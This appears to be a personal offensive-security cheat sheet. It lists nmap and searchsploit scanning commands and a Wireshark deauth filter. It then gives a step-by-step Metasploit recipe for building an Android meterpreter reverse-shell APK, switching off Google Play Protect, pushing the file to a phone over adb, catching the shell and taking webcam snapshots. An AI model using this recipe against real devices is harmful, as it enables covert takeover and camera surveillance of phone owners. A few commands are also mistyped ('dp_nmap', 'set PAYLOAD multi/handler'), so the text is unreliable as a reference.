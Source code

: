 # OffSec  
  
## Network Analysis  

nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
  
nmap -T4 -A -v 192.168.1.1 -sV -oX hosts.xml  
searchsploit --nmap hosts.xml --json | tee router_hosts.json  
  
- Wireshark deauth packages Filter:  
wlan.fc.type_subtype == 12  

## MSF Reverse Shell 101  

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  
  
Meterpreter:  
webcam_list  
webcam_snap  
  
MSF ddbb:  
systemctl start postgresql  
msfdb init  
db_status  
  
MSF Workspaces:  
list -> workspace  
select -> workspace msfu  
create -> workspace -a lab1  
delete -> workspace -d lab1  
  
Other:  
dp_nmap -A 192.168.1.1  
db_import /root/msfu/nmapScan  
hosts (display scan)  
hosts -c address,os_flavor -S Linux (-c FILTER, -S search)  
  
Backup  
db_export -f xml /root/msfu/Exported.xml  
